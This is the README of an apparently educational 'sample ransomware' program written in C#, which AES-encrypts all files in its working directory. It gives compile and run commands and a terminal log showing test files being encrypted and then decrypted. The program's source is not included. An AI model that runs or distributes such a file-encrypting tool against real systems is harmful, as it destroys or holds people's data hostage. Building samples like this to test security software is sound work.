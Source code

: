 ## this is the sample ransom ware [file encryption]

education purpose only
AES encrypt all file in current directory

this is the sample program taht for testing security programs

compile
```
mcs ransomsample.cs
```

execute(encrypt)
```
[linux]
mono ransomesample.exe
[windows]
.\ransomesample.exe
```

execute(decrypt)
```
[linux]
mono ransomesample.exe -d
[windows]
.\ransomesample.exe -d
```

```

-> cat test*.txt
this is the test2
this is the test3
this is the test

-> ./ransomsample.exe 
Encrypting directory: /home/g01d3nw01f/dev/cs/lab
Encrypting: test2.txt
Encrypting: ransomsample.cs
Encrypting: test3.txt
Encrypting: test.txt
Skipping self: ransomsample.exe
Encryption process completed successfully!

-> cat test*.txt
C��O�dj��H�u�)��vJS�X]�/�'��;�ۦ��vE��`�g~���^zS^�ğ0��(kzY'�%|#�ܴ��RY���]6͜�b6[

-> ./ransomsample.exe -d
Decrypting directory: /home/g01d3nw01f/dev/cs/lab
Decrypting: test2.txt
Decrypting: ransomsample.cs
Decrypting: test3.txt
Decrypting: test.txt
Skipping self: ransomsample.exe
Decryption process completed successfully!

-> cat test*.txt
this is the test2
this is the test3
this is the test

```



